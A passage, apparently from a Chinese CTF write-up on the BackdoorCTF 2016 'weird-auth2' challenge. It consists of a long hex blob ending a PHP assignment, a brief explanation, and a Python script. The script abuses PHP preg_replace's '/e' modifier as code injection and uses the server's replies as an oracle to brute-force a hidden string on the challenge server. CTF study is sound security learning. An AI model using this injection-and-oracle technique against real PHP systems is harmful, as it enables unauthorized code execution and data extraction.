f357767e165bee7d8dc172e237da41083af4145c205828891ed68eb6fcf0cced34958282b66af2d67bce60315678789c2f2cb1f9dab570a9830f4b8e8dd65aa62fa493891f2f8c3b6fd1be5427e4e75d3534aa449d2d6980ed8d9597b24fdd0b20e11b196d34c0915d109b86c348fbcdada15eca53ff187bc59a80385da0f798032f83bccc385faa65366225d06e867a5cab34ea30a0fdc84f450b8eca9ffc30094e1a784b97e48fe906effeb4a24f465996ef9306d4b8572904ab27be926a0388982613aebed0e3d0695d555c51be28de602b0ae6af7bc5a7e940ea13c2c8e2553043b453546fe401d7cb5017b0b02776c612d6ae468e1645e298e8b150dc36f6935086b3bf5e0203905911f3ccbfc8c07e3991fc2b4a1af1a1fa4eaa3dffc8e73b17b9946f70a7eae45e6591756b2f523de9f3c679d2d588327867fd37c23522e94069fa2a57c95b0b43364d4c319d56116a3f8159869698eef94436adb0ac90903b1abdad71989b34a9ac7216a3273bc030fa3ee1ba7a6f11e69c6210061cc0c479a41a34316c48a4c7ec54ce8390f503e4e96dcde13c8bca61a2c9ac0ffd502b99bd0ac839015be02d1b59319eb3efbf5e0f19a20ea0fe739e373722af3b2d72081ffdd4085382f88c69e5d4b37f46f96d6c4f553f740be4ca22f3fff1fc84ceb5df2663e54f5c4b62bb10620db22ec925bd334e8b0c7bbec7ff3df62b2857685ecf558d0cb6053ac8d8ac5a23637da18a627a5ae06cc2e38c8bc6c06417a46f238a7cfcb783d4bde98cf5188af31536f8d55702a92fecfe4953b6f52319a3c734f30b97905d3b4ef65afb69b40d45476687dd44fd85f65ab546d34b0994d8d42957dd8ff7a96b7595dd52b033d2a23cd60600e39b238b8199c46820ddd18a3847b8d706ccc1a4c0e45bbca9cf85382edcf35005855acf2d3df68e1726dacf95b7c129037c069277a2bdadcecaf7dda675c6518d786dcafb32c5992f98abe8d44cf2d239fdf53faf5ab68f0362b9d6631e0b9b8dc8526b3ab35d40b4bf0aade08fa76e0ab5e0a7a2fe2dbff1a52b54fd43ea729f40b4b2afd26fd861cd21e18fdecc3235eef8e8f139e357446654ece3ae969c8bcab078402f2fa69588d41f6670a8fded26fb569cafe2f8dcd9e8139d3171b91e8dacc21b257ede5485dace51cfe64359ccdb8ea0155ba2099aee3998e66c1aadfde297d30e01cee0d8aa906eed5beb780425f75456d2850f8cc7169df982d60a0b76d399cc44fa301ddae49020cf18b60cd9342ca68b6e9cedeabed25ffebb67175ffd95f370e03f9224d38c83e47ce64ab1a7078268140bdc59f3ccb7d5e612cb127e8c9f0fdea2e8fc25498f69dcdf87ec47053eb25bbc978889d85210ac0c3f115a4d82b4d5d0ee36ba7b5872b27644186d1dfe01e29a47c74daecae6ba9d7c16383c4272edefcc2b4d7c314b8eaeaf0f1149bb76af3a93119673f1e00a6a46fddfc9e517bceeced1170d1ba85d04e0ddb6d52c523fbf04902b067495054d577c98bca20c73586a027e105e2ef89a29fc7a5876c390a9a0db0ab770f459f2df2469545e0916c366fbbccf2457e5f4327e5968b419a6b16de466366bf64d5bcda449e47d34b9a1481c734e79510947763b84351125d9b2b521f0310acee32b0c786b949fb843857861375d8721fcce629c0dcf4c89aad7177f5e094b42cf75742d3dc3fc3312075d56ca75cfab6a42c887dac519cc1b3726ba421eb7368c3668de6d3174ec019b47b70a693a4272180572affec845e65d70eb206c98a9f78cccc1a4d2cd5b15c947d451263e98538f97fb01d27337a52c3ed719c76d0a603e5b0b6299cb99dc7524f7982b741b69aff6947068ef4b5caf3c90d7244600b57467dfdfc30ba68a2867aa94af3c819ffac2e4d5ef922f940dea317d7b1b106e2dd03512e6a08a15f469858a9d8dacd74eb0fa70d8a8ea438007b87317532a986e2736534e55be4388b2299c027c845c499f593458a9f05f0304592d7662b36b828c2fe2cc32832b71078c7656a995ff37e7fc9fdb1e215b3939a567d4ad089d76fd4827a0fbe10d1028a9541f5d5b561601aa640874adf26276f48e80463c371c182bdef872fef51bb8ff25dfa9f4e11b82c7c06f8fd00f05f05da7570df4846ff9f2b9d818d924e305fdd7057eb4b27637f4a21b0f9fa4a05f5d36e8bc01b5e45569f21ae36b11648a8e71ffcf97eafb2ab2205315b052f7bcd7beeac2600e79538bd6e5c5a7bc28b5586381c0e61291200f3b582d830886932b77e4e174ea12c0d4b2d8d55abd87d70fae9f6306171fe081e4d4888c298626472209ab8f5794b2d7dee23858bb6af1c020611e3b753925ffc8af8745c05560047137c5b7d6da32775ac7c9c23b27e5f447bbd3c79a186eb4ab55ca404cbe85720e852ad959ed7b3d9e16255824cdd7deccfbd3617af0ce6e2f85d0674552619ad02eb17c31d99aec2f01b6f129dc916cf6846d9c3eb561012147fcbfd1f9a7fc8f703c64072c68b34fb7838e0c2c067eca2b97db2ad71c44469cecd3fe14e6344a4dcc00d757682fbf3f1050c0d5fc0e7824f6d703775b80076abcadab21350c123a70d93f5e1d41e47f49bea4b1cdf071456f4b54b0a30a0dc120116f198c419d2bfafe724f7be4df2914f1ba276ce6641aca7642d97e5fa678f0993eeda98bd12fe900daa6ce7f2e1003fca9b51d182f06e727d66a16bb5409a933536590951765a3d3d7a21b554b41f7015febdf5598c824e2e7eb2cf107f3f9a7382d77e9cebd52bd17680109fe282ef2b389741ec310538ff3cf2142de4106e0625acbc8884f8537f0d4f2b936fdd354aad3df29eb062e6d7f8fcde43cf1550d3c047a4798de64f16297adbdbe3b690403a455c5a236b68b291e5de2255704905bff7ed6108de8a4b3624eac3e18cd77806f68c7214f8b5b675dda3438da976749b2f510190414a410b12a30d3c2a9491bf1f7de7a2b3723390f6a2c79e850ccf068a8dcfa5b6c869849e0dce0c3434e62cf78927e3daa96070b06def663abf96eeb3eb5f861d6b9391635303d57eb231a7ade0f105fc67640b3d57e520112bcf3821540d84997bb20eea18138bc62933da66be9ba619725ec1df21d5cc777db14f1e02c56663af4dc8633e7582e5c72e57a864af9a0a8f84a19eb7f7ea305cc70325a3c26d72626d6a381c66778dd4e8f6a881486ff4ffc3cfb6d08d1f0948304fdc66536af776890d00881db8090bea0e1a518d8922944289acf0df581c2730eca84897b9e4b0609e464319ea6376aa6097fdc243fefd8fecba7db0b7909e0e8f299a8c7682a0edfb2ca13ada7262d2d29267dbb15181053f240d20d60bf7f7c5844a79f82e059b997b1c587d8f24d4bea7166fc22af71f635ffebd6df01634c41308829e1ec6a0779d92943d01976d8c40962f5a563805940d7d68fbfdb6a1e50ef951e4ae6d4ef2c43d933ec424ef0be5369b8f1f45f9c6c975b16223a83fcea60eb3873daf1c82235ad55fe90b6865455a56ebe11cae95bdad09b2a06878b159910793e396cf5ca834e4b766a71ea4f59cc4d8ec3ea39c7e9e8b186af22aea7c8b8993071b0e84a4bd941a725a10d5c4a505bd6b96843072cdfd7a346b556b3969313e611d0d6f9d2fffb67b36c1809c569e55537660ca512db077ea321446d3ddc959b863ad81f2fc0c0bdf0057f04796d165301a167a5d87c413c103f3e649efb9230b71350c06fe4b397cfb9a399924a1990638d4790cfd758ee06d108f4f399cdc82e7440d581fa205dd3dcb814b5eb2be61827bc9a3633f485dbe0e73df219c223c6dd4869bb0896be779f71af3ecaae887b7f9941a8e04c16e3cf34e7dec62c72d86b3cf3fc103c1163432b45b659184591272bacbb63836b13f2ae1406a31d613ec48cc1b8036c3ee46e0ff05d5c30f73203d736db8fdc8cc961492a195148e987607bd9e6d6a51b715baad983f73b48b290f6c52915497a35a80be456575b5f59df335012c9d93a3d931e3a564bc13864f6d6d4d2444aeee5e4884c69da9b68202c86d4ff97c154cf4045b020fe3620ec478dc941d894141a2d57b6569b1b3ce8f3d774efb7c2ecbdf843cf39223514c1c020611e3b753925ffc8af8745c05562cb46785b65caa78b70cd34fe3dab2d4a3ba3f8c5a6d567f098cc8976cd9f15cfeada24cfb41edb45abbf39c2017fe537630b8e9225cdb23ec9b06bd976ebc17e8bbbd699cbad744539d1c6af1b460484dcaee04da2f7ae08aae6117c2c9fd5685b5ddc73ef5d35661086baf10be9aa2dfc4f36c162498070e58f1eaa02841570bb986222c994e6618cf7da4719e71676e9995ae809e4e21f004fe35e110242c2e5d0b0225f726069aad37fa61c4049c347ca391120d0a7c9df90024783edf9e173b43e41be0adfe3878f011c99d7b3769b42b1ef22c35acce7b64f75bc1ee0b225afa789b0480865429535c822b0592ecaa73f45aab8550f5b9bb992647f00478d72e4a0847a93e73018424d21c5c526314d2ec6ada98b2854157201fffa36abfcff94dd4c22f20d9a44c30168bc7ab280e58df204b7152dd88e45238576b62ca112540da478887fb42a7e48da17cfd772d7106b43380d1ef2b9507f4715f345ec2f224d3205dacf55e19513d9276f94854566070274d4f3eeac26d9b021c48589af819927d21f3952e973e2b037e6111a3ea3ba776a934bb57a1f1f0a05228282b1ff6dbb4b4be1bd3494e6e0232140b301f173c23652f1558e66d2311124f34bfda66c0e7aed27df43aa432ab307059921d58c1827589f1e2b3c3822a38ca0a2c3b0787fb0659623c8b18b86ee7792d54480974298f2c8cda54b0ad3e26523fcaf725c0f29baf494043a3dc0c9283c24acebf4a5bd0b452aa21d60827a2abd5d45d2dcfc62b8fbb5f2a286a0c5e360c0eb74189d3bc6565ad3715322149268d433794c8de8004a892c970a51640977026c2f95df955add76889f7498fbf6426575ecb568c16c9142dbce09640be581903728e583f7b09d7145cc1ec72050308a35a898161ce272ed946f6255760005d2459d15c8282e43e4c21e2a52568bd69b2326e032c7867e97db527514f7c7b17b37efa044816a15ba1166ee29209a80e130093fbe81711f7300facb3294a21f7a2218ff263deb4a50cc80e63384ea65a892eb53931f74e2d68bd0bb841aba08b09eff3a6cfba9b3fe4f7fc54be4c194eaac72514378d0e65d5c59d599133fbe791011b5caff493b4a26634efb6c8fe5e2851efa4c8a6ec920790b20c10ca85e19d37da7678aa57e2f1a2e0c3d0998d93d81c020611e3b753925ffc8af8745c05562a318bb4f965deadc8714190894e1d56b789118b691f1060cfa9e2d6eb7c09ac7bcf4a573592cd149fb59d105eb0dabea5d181531578a099b886c5ed7cce19ea89acca319d5e969c25611c54b97cf74faa36389e59241c513e2c5501e3baa42198fac91d4425afc68924d64742de0dcd24b9fd14f16778876b603e4fbb99f7940ccb1118d0cecfe4ebb5c41fb48294604a80a086b9441a86c432924f4ac35dcd3e4ec49a0181e88cd06bafad19ef25d4512290bb1063fb3c404734b02ff677330ff3b54678dd9b32393a3a7bd50c5788640a3ba65381900912a8633b4b454d399bbd0bbb58276b31375bd26425b763e05c2627d651e90ffcd705d40f024809821631928c1836aa690f484c65259364e2591446b4fbccceff4501a562600f242a1bf8040aefe1546b61fda2e17c45efa621dcde0eb6ea92214cf644d5eeede3e2c5d71f667901869dc15c06d9d58c6fa1a819755f4caa883b863db1c8783397bfaf67ac9ce6720eaa54803d14990b6d7b21bfa8d3e2add07f4792d8e6aea0bee80d32d93185f08e14a96d6f57b658354a1a3679b91fe6283cd508441fb5b7ab648f295eeed2280a31b1d409b90f0ad60d905428b30d3d457110697d3b22fda73007ed221a31ddb166025b85a88f37d85e14993a69269b4a6babafa7d12d648eab097da9e640ee143c8c871849a78846887fb9d3b075de5f8b4ff9fe1833f1431f76c56437db1678d71cb63239537e2af19be9ea75e3e4de3277f826de04a695259d23066af9b0a81f21a964ffee112fd1c446af4d2d2fc72b4e9ae4d4da4d81c465e4aa77fb6ecef8953110d717df84520545e59652e5b1d36b6be95a87bba0a29505c3a3e5d53bc0b51be2121625e930b2ed0399c88e803c203e93f83ab5e705b63d4b5522ae56e9a45904cb34bae9df36954c42eaf52f29b702f7e5d8a9293584a1d3b52e83fb2694704c7d911f903148abfc79726307e1fc735bdd7091bc1ea6f5f70899e70da4233972741ecb59361e0efc1dd1591ff656a21b300ca12b07a86740b59fadb0fa02b2659c612aa7413f1adb1ebfd65a3e11ddcb5461cf8296fb9178f5ab5195738dc46b6d0679759ddb5da1a35ce3d6f0484014b7e5a35a6139972b5da24da845d3f72c4aecbc299777041ba42b8922d4b0d1fc0e4726a51322e104ebdf69c4ddc6031fb1b88913dc45c558291c4e668fa042dbb8efc9c62f1d6509a00afd52924c4b7c931622ce101efb42bcef2980de3febfb9f3687b2a4a3463b845340c216e1dc8130e83524f0a18ea3d98b33de8b319917f41005323473c1721d1576541deedc0b5cc3b7c2ab755660828794a7466bdb5ed4c07748477b6bc85c9bbaab26948803bd942fcc6e5eab48bc740d608158936a457a4390b60c654fdf0dbae50794f14032529d8f1811c020611e3b753925ffc8af8745c055630abb1c531a6129fc301f8948f0f2b3d789cdcc3ccae5bb26eb9a176507ff837fd14c2ec25995422faf21cb45f6ac976c189406519564851eac82a6cbf90449eb3c43b3bc4ffbd782e751042fa01c71ea336b4b8dae587e047e4eb82d64287eeea483e0c2714269e0b547e7098f30647bd7a29a7f48608bc7a180972975752cb6596bc5f58e125a632b3738c1aadfd1f20a02229cecc1668996af9975ca2a0c863388ee565857a803cf29fcd7f80121341923bd68410caa77485659a4f9179ed23ad3b60a2153f767bbd62d016c831431b56029e69c444af92fdafeb5a33412232fee5685c1b8722e7ee2e50dc9ca58b334edba8b687497c53a6038c73d5efbf1459e30daa5569de1436eefebca828dea4ae2d014cee3ea9cb7f30e755e2a1c78f653ff9a91123b828c29d23563c820b9b48daa0d92f43cae2612eccda96267e170383f34a2774e344f17014a01cdd0f1d7b36802f25d7c3dcc79f85f7337ff9c9ea323170e732143daa28710b9218c7163d5f149830db059354e79d58f403a4cc0928759b20065049a75cfd830d9c63c5f2e2e87b131fe4557e7e94f85dd0c6985948446e5455d62beb82bda48499ff12c4e26ca482f3ff15080916e18a9a2b215d33852640d03cdf2e0b602fc5281e2c9da4ed4efc86095e4e817d8e544519172bac1674b2087a74544266c70d499ed39053e0cf75169e8cd1ce091ccd320dfaab36cfa27e98d5cfaae0a5e42616fb952c8f5ace601d60d8a4bed6a6561fd0d005a4b3a2ea304e0e0111a2c396a92bb7331f0517417442fb2c59c11ffd4cdf75a5522ec646fc0f36d5ffc5fe8bc5b9737e8832fd3e32d090a78466a2606fbe602175bd47444132d336b35a0baa2398eeaa9b92c057f7127e88208c1d9fce599770bce3ac396218f9ce99e47c9fa017d5fcfabda936564cd71e76f90957778d0301a08c2d4cf78b8e24bce218b0193bd76904dd4dd4a38bc69f3e89a874f7e9fe9f45a04f31ef554ad1c626969dc3e8abcd71613e86a0d74a65fbad7807d52ebfbf3ad55ea45d5394988f9838ea5e3fdafe69f9eb14ce7962c043a9263f7e9da8310f8635625d242b0377e8d50093610b4dfddd1e6ca8a75935dd8066944547361d4cf0626dcdf3c22ccbebde306cc9aa4dfb2e8167c23d8ecba3179267e9df2e6d62393841c5f5892ee2eb4d2e940bd674ed94e6547854627d473f867f984fd9cd9de97c424138b8f1fa6b8b5fefced1434348e09a001e427495cc35782cebaae9eaad914a9b8bfb420af590b0a5a5c735a22389e82cb9ddeaedd3ee3e353dfa93893571b1d0c48fccc778bf5e67eb73b552ae7736096d9f3d4100059e861ff9e4c940beb29ba7fba96d767131c33f4d84b45cf713cc9c5cb21ddddfc3522223e27721c020611e3b753925ffc8af8745c0556f21672d134e3b57ed53b2cfaaa132760f97bb0c0c25006f175fc959dd4101e303cbe1f33d07e3e92657dbdf3824a905b91bc2cdf40f56f952ec2a54265da99bc6ab9d1f5c4ede51e899472a891ac858f5a7e74fb81562205a0a08a07a06cd6ea4e3d38c6094b77e615eabbe1822b8ea9bcb3e2c13a25e35d06e3ffcf76785b6904ac7ab703296c4b8467dedf43753e38d24c1a0da479721906035af9f505107ddcd8385705f85429e47f282e9b03d8d5b448bb576bcbbc7c1b8fbc3f5b192839b0997921eaa79d0aee762c1e5681ee1d8d0c07e1256f098a4593e8fb79d55e4276823a9d695c34874ca51bf7d357dc00d88212a58eb83879daa71713bd5361b2571a008c5163ecd9f3e9645c19acd4ca433015e7418231469dc74d4294b61f2af2ffbb6964deb6b29e896dc7dc81ea0925dd307181b298390c2a6282e4f0c4d3b1d58690948f597db850d9d5404a41dc5dd355da8e0162d43b1ef55322ab2bee32e510db9f7092ab942dadd88e8640e7e553064644e34db2f332dd11252615da7c306a8a4a7a5596de91737af52c6f6ce9c11c020611e3b753925ffc8af8745c0556f65c2dc67345c3b09c79e6ca0f28f183d1f071d3286ffc13ba9aa99bcab1103583fc39fef15bbceb5ba3346048dd01266b9f7c6d6d7814a01acaae5150bf581e2ce64672957d082087797c0c1271b62e58047398c4dee4479a8bcb48e7a601d321dea361894a11102851d8a2d98131b93e961cf8b7108e3c65cfe3848f2f4edb6a05d4733bf7df7c3904c5de3bf35834abe08494f47e6c0108cff41cd418a723e5309065efc440a4c3301a8ede9270ed35809c2af31f4730524c2992859f37bef467cedd867fdd15b4b0fdbb2180a0b5f53acb1d63a0174c69b364fb01fcbd0e33b27e1d25614740bacde1de9834b0887cfbe43d4b7360f2b061691de9eab212522b1d405bdf9a92a2d77596ff60462885f3253552318181ef0e4033a9ffaaa9f53f9cd71703d8a86829bd54270ce0509183efc621a079c0b4033f03a1418d1a1e4b05eb6a25336709d18f59ce287ec4cf328fe4ce0c5dc0298ea2459a44e84e079569850ba8c5c6f923012759909c68864e22fefda5dd25796c1abb5e79d4502a5ddbaabc38897b6fbc718013f87eb2b731bed97dcba38a77417550cc6de3e7317171f517e4a2b3fa6863867117acb2b14f5d0857a2a1c020611e3b753925ffc8af8745c0556dcd7b00c2f436093c6bb6ad50c50c75f5e1bd464d0ed3a487e05841221e6965d948c6fa95f4e0986aa0af56807c88b1bbc1e9c130e5d96bd99e0698b27c8094a036c712777767317b783a6686faf5cfaccb0f4398641413d4ed72b776fc60d87a096abe2bdef486a1d9fb1796d7d1f7da7186840b0f78bb7798d3b2c28a6ff0f9abd260418a2e1e15ae4da5f43d26df19d3cb1e0c70414ebac189b863f72cccdd79e97d2f9b7ecec16b3fab9b885f258b2070b3203b616cca64a1e434c52568db526f2357e18a5e7f947fb4af18898525f6ba8006c11078464459ea1fe1a79ccc6a385c21665833d3f2e7c97c61aea59b54d1eec73d6f365ffc6ab06b443a4141521bb70eab849328a024c5d3c457195f38ce2ded1d4de33f6c4f9acb1a13f9459f41cd7cfbbb877b27d9061ba97775ed55d1dae00c9728d428c6c5761b2ff94e3769818d3bee7247fae70ee02510042dc5b5db358ce4428e0d121e0ad3dac56c256535b0fc0a8146ec41ccb809a7dd96f923a418de9ac37bbd5f681310000179d454a9c7d57295c38f67d284cfa9546f959034a45d0eb6eecf9eb82ecd24ac81da07a569f6d61865d2989b02618fbed91af16c09127a07bf85ae488122491ab194aaa7f135757ec32139e51ca16bbaaa83d3e6827c64040403d842eeec6e1a6de4a4dea9ab3ae7690450688eb003f5595376846c3522049505167f8e8aecfbb4c6c9376bef9566d541381bdeae85c9432232fc787d60af14d51f50e9a5c01f79c673059ca2e2210183887f3209503ded3bbb346530531e00817edb87f6ad68f6c28964870a41e2c918ef0597e8e913fef35ab6111b1364237bfb6cc6a1cf612d4771cee0932e53c9fc51a73390d4e29b2e7fee94f72ad72ee23aaa4ed1bd4b5655b5c5233668b8ef3917e5435cdb2cb459e47439d787cde185415d8e30813b1f2498c940bac353718e1ef57d22049716febdf2cf3291c0af4735c442ec6019037c9b6501513d9d37ecb7a250f8333c1f95c291c33140f1cf91b135603e2bbf415a151c020611e3b753925ffc8af8745c05569867f8aa8cd1af6a4c839799fd6a16ae156d4654e915c26fd5e994eb72977e25f01ba6da817561626d65cd0795672f624835e32b04b48e7658dac01b635dfb3d9c610edc17a8b1bca3c2c41fa1550c73c585955124dee98126cbdbe31761cf6146eda48ebff1c3e72df984b00773fa3d4f3075c31168eac7d7b7f561b0344894b49405013811518b04723e6df9d0e2198e13a337ee5d0bec104cf1c5e7124ece80e702281949ec60e105f1d5f834bf87374cdb33f9c85ad033c6d26c3a99293ffd66c645422d4544ae6e7d9f01884a170e86b87eb10e35083f5a8627698ee2ecdd226c46e62a1e4e6feaedcfddde84b2fdd7c2b49bf49edb84087d9d9d9e229908cc159e836a263d58607fc1fef6825822b4c48c4ee653bffb058cbc01c020611e3b753925ffc8af8745c05562425ba86a506b7ddac06560127d15245b77bef74bb07493e1ac4408570ec11a7e01b4ab38f184ea381da766b2f51592471046ad43d444737605009d0159f0ee8e1a2d69fd8048b193d97ca3e1d184cf0f9c7e21e2397dc2bc35dcca12dd7c358ee5c66abff2150ace92c3809d3560fe5df9f5b7e23e2804";
```

当password输入错误时，会输出$lockedPassage，使用以下代码测试$lockedPassage的值为`trolled!`,无法理解如何操作可以使`trolled!`变成$actualPassage

```
import requests
box = [' ', '!', '"', '#', '\$', '%', '&', "'", '\(', '\)', '\*', '\+', ',', '-', '\.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '\?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '\[', '\\\\', ']', '\^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '\{', '\|', '\}', '~']
start = '/^'
end = '[0-9a-zA-Z]*$/e'

while 1:
    flag = 1
    actualPassage = ''
    for i in box:
        print i,
        password = start + actualPassage + i + end
        r = requests.post("http://hack.bckdr.in/WIERD-AUTH2/submit.php", data={'password': password, 'key': 'p($f)'})
        if r.text.find('flag')==-1:
            flag = 0
            actualPassage = actualPassage + i
            print 'yes'
            break
    if flag:
        print 'none'
        break
    print actualPassage
```

# 参考文献

https://github.com/jcfs/backdoorctf-2016/blob/master/weird-auth2/README.md
